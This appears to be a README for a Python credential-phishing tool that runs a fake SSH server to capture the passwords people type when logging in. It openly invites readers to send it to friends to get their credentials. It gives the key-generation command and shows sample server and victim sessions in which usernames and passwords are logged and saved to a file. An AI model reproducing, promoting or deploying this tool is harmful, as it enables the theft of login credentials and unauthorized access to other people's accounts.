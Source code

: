 # ssh_phishing

A python script that creates a dummy ssh server. Send to your friends to get credentials.

To generate a key use: `ssh-keygen -t rsa -b 4096 -C 'bre@rodri.guez' -f rsa_key`

### The server
```
$ python ssh_phishing.py rsa_key
Waiting for connections...
Connection from: 127.0.0.1
Waiting for authentication...
Username: m.user
Password: my_pass
------------------------------
Username: m.user
Password: 123456
------------------------------
Username: m.user
Password: 123456
```

### The victim
```
$ ssh m.user@localhost -p 2222
m.user@localhost's password: 
Permission denied, please try again.
m.user@localhost's password: 
Permission denied, please try again.
m.user@localhost's password: 
m.user@localhost: Permission denied (password).
$
```

Output is saved to a file in the current working directory called `passwords.txt`.
